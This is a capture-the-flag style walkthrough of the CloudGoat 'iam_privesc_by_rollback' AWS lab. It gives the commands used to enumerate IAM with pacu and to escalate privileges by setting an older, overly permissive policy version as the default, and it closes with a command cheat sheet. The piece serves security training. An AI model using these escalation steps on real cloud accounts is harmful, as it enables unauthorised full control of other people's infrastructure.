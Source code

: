 ```yaml
---
title: "Cloudgoat IAM Privesc By Rollback"
date: 2025-06-12
draft: false
language: en
featured_image: ../assets/images/posts/iam_privesc_by_rollback_cloudgoat_challenge_logo.png
summary: A walkthrough of the IAM Privesc by Rollback easy Cloudgoat challenge
authorimage: ../assets/images/posts/cyber-immuno-fusion.png
categories: Blog
tags: ["AWS Pentesting", "IAM", "Cloudgoat"]
---
```

# Introduction & Context

Bonjour, c'est une write-up for the iam_privesc_by_rollback challenge from Cloudgoat available [here](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/iam_privesc_by_key_rotation/README.md).This is a pretty quick and easy lab, where we just need to do some basic enumeration and switch a policy version. No flags or post-exploit work to do really, just search the environment and level up. I'll be providing my workflow, a bit of manual and a bit of automation with pacu, so follow along!

# Setup

If you haven't started the instance, run `cloudgoat create iam_privesc_by_rollback`. It'll load pretty quickly and give a pair of credentials. Add them using `aws configure --profile raynor` (or really any name doesn't matter) and use the region us-east-1 and format as json. Then just quickly verify they work by running `aws sts get-caller-identity --profile raynor`.

# Enumerate environment with pacu

To start off, I'm going to try and get a lay of the land by using [pacu](https://github.com/RhinoSecurityLabs/pacu) to do some of the initial enumeration. Run `pacu` to get it installed, then use `import_keys raynor` to load the credentials in. I'll do a quick run of the iam modules. Type `search iam` to get the modules about iam and the one of interest first is the profile persmission. After that, we can enumerate the environment for other users, roles, etc. Run these 2 commands:

```bash
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
```

You'll notice there are only 2 users, one is you and one is cloudgoat. Nothing useful there. The roles are all default ones. You can run `data iam` to get all the iam data, or filter by running something like `data iam TYPE` where TYPE is Users, Roles, Policies, Groups. The only half-useful thing is the one policy. Check it by running `data iam Policies`.

```json
[
  {
    "Arn": "arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x",
    "AttachmentCount": 1,
    "CreateDate": "Thu, 12 Jun 2025 17:21:39",
    "DefaultVersionId": "v1",
    "IsAttachable": true,
    "Path": "/",
    "PermissionsBoundaryUsageCount": 0,
    "PolicyId": "ANPAVRUVQNVQTRFKOIVZD",
    "PolicyName": "cg-raynor-policy-cgid77ggvan45x",
    "UpdateDate": "Thu, 12 Jun 2025 17:21:42"
  }
]
```

# Get policy details

Alright, let's look into that policy. This lab is about policy version control and right now it appears the default version is v1, which is what we have. To see what this policy on its version can do, run this: `aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v1 --profile raynor`.

So with this current version, we can do a few things on iam. We can get and list and fancy enough set a default policy version. With that, we can think of an attack path. If we find a policy version that has more permissions, we can set that version as the default and gain those privileges. To check other policies, just change the version number for the version id flag. The ones I ran were:

```bash
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v2 --profile raynor
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v3 --profile raynor
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v4 --profile raynor
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v5 --profile raynor
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v6 --profile raynor
```

I didn't myself, but if you want to check what versions exist, you could run `aws iam list-policy-versions --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --profile raynor` and confirm the number that exist. The last one appeared to be v6, but we would have found the juicy one well before that. Take a look at v3. That version lets you do anything on any resource.

# Escalate

To change the version now, its just one short command I had to lookup `aws iam set-default-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v3 --profile raynor`

And done! You now have complete access to the AWS environment.

# Conclusion

This was one of the shortest labs I've done on cloudgoat, I finished it under 15 minutes I think. All we had to do was quickly enumerate the environment, grab some policy details and change the version. A quick and easy lab teaching the importance of proper access controls. Never give user more permissions than they need!

*Don't forget to destroy your lab after!*

```bash
cloudgoat destroy iam_privesc_by_rollback
```

# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
cloudgoat create iam_privesc_by_rollback
aws configure --profile raynor

#Pacu our permissions
pacu
import_keys raynor
run iam__enum_permissions
run iam__enum_users_roles_policies_groups
data iam Users
data iam Roles
data iam Policies
exit

#Get Policy Details
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v1 --profile raynor
aws iam get-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v3 --profile raynor

#List versions
aws iam list-policy-versions --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --profile raynor

#Escalate
aws iam set-default-policy-version --policy-arn arn:aws:iam::381491899745:policy/cg-raynor-policy-cgid77ggvan45x --version-id v3 --profile raynor

#Shutdown
cloudgoat destroy iam_privesc_by_rollback
```
